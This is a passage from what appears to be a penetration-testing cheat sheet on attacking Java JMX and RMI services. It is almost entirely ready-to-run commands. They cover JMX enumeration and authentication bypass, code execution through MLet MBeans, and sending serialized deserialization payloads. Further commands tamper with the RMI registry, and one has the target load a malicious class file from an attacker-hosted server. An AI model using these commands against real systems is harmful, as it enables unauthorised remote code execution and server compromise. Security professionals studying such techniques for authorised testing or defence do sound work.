 ### Method 5: JMX RMI Exploitation

#### JMX MBean Attack
```bash
# JMX enumeration
nmap -p 1617,8686 --script jmx-* <target-ip>

# JMX authentication bypass
java -cp . JMXInvoker <target-ip> 1617 "java.lang:type=Memory" gc

# Create MBean and execute code
java -jar jmxinvoke.jar -h <target-ip> -p 1617 -o create -c javax.management.loading.MLet -t java.lang.String
```

#### JMX Deserialization
```bash
# Send serialized payload to JMX
java -cp . JMXPayloadSender <target-ip> 1617 payload.ser

# Using curl for JMX over HTTP
curl -X POST -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser http://<target-ip>:1617/jmx-invoker
```

---

## 🛠️ Advanced Exploitation Techniques

### Method 6: RMI Registry Bypass

#### Registry Manipulation
```bash
# Bind malicious object to registry
java -cp . RMIBind <target-ip> 1099 evilObject evilClass

# Replace existing object
java -cp . RMIReplace <target-ip> 1099 existingObject maliciousPayload.ser

# Unbind legitimate objects
java -cp . RMIUnbind <target-ip> 1099 targetObject
```

#### Dynamic Class Loading Attack
```bash
# Host malicious class file
python3 -m http.server 8080

# Trigger dynamic loading
java -cp . RMIClassLoader <target-ip> 1099 http://<your-ip>:8080/evil.class

# Using codebase parameter
java -Djava.rmi.server.codebase=http://<your-ip>:8080/ -cp . RMIClient <target-ip> 1099
```
